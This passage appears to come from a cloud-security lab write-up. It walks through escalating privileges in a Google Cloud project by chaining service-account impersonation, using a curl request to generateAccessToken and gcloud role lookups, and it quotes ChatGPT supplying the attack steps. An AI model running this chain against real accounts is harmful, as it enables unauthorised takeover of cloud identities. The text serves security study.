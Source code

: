 From here, we're unsure what to do with `vm-serviceaccount`. I think this is because we got a permissions error trying to create a service account key for the `sa-implicit-*` roles. So, we continue talking to ChatGPT to figure out how to assume `sa-implicit-b` because we're getting a 403 error when we attempt the `gcloud auth print-access-token --impersonate-service-account` command from earlier.

ChatGPT said:

> Ah—this makes sense. You hit the classic nuance:
>	- `iam.serviceAccounts.getAccessToken` is the permission that actually lets you mint a token for a **target** SA.
>	- `iam.serviceAccounts.implicitDelegation` **alone** does **not** let you mint a token for that SA. It only lets that SA appear in the **delegation chain** (`delegates` array) when _someone else_ in the chain has `getAccessToken` on the next hop.
>
> From what you found:
>  - **A** → **B**: `sa-implicit-a` has `implicitDelegation` on `sa-implicit-b` (but not tokenCreator/getAccessToken on B) → you **cannot** call `...:generateAccessToken` **on B** directly. That’s why you got the 403.
> - **B** → **C**: `sa-implicit-b` is granted **getaccesstokencustom** on **sa-implicit-c** (which almost certainly includes `iam.serviceAccounts.getAccessToken`) → B _can_ mint a token for C.
> - Therefore, as **A**, you can mint a token for **C** by calling `generateAccessToken` on **C** with a **delegates chain** `[B, A]`.
>
> Use A’s creds and target **C**, not B: [...]

🥴😵. However convoluted, we follow BasedGPT's advice, using an auth token for `sa-implicit-a`, and we get an auth token for `sa-implicit-c` 🥳:

```console
$ curl -X "POST" "https://iamcredentials.googleapis.com/v1/projects/-/serviceAccounts/sa-implicit-c@aisaas-project-474522.iam.gserviceaccount.com:generateAccessToken" \
     -H 'Authorization: Bearer ya29[redacted]VvbS' \
     -H 'Content-Type: application/json; charset=utf-8' \
     -d $'{
  "scope": [
    "https://www.googleapis.com/auth/cloud-platform"
  ],
  "delegates": [
    "sa-implicit-b@aisaas-project-474522.iam.gserviceaccount.com"
  ]
}'
[...]
```

From the project IAM policy, we know that `sa-implicit-c` has access to a custom `projects/aisaas-project-474522/roles/setmedatacustom` role as well as `compute.osLogin`, `compute.serviceAgent`, and `compute.viewer`. We also discover that `setmedatacustom` has access to `compute.instances.setMetadata`:

```console
[MacBook-Pro learn-the-alphabet]$ gcloud iam roles describe --project aisaas-project-474522 setmedatacustom
description: 'Created on: 2025-10-14'
etag: BwZBJMyOcKI=
includedPermissions:
- compute.instances.setMetadata
name: projects/aisaas-project-474522/roles/setmedatacustom
stage: ALPHA
title: setmetata-custom
```
